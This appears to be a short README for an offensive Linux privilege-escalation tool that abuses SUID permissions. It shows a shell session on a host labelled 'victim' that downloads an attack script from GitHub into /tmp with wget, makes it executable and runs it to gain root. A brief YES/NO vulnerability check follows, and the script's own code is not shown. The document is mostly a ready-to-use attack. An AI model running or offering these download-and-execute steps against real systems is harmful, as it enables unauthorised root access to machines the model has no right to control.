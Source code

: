 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget "https://raw.githubusercontent.com/d4t4s3c/CPULimit/master/CPU_Fuck.sh"
user@victim:/tmp$ chmod +x CPU_Fuck.sh
user@victim:/tmp$ ./CPU_Fuck.sh
```

**Vulnerability Check**

`YES`

![](/01.png)

`NO`

![](/02.png)
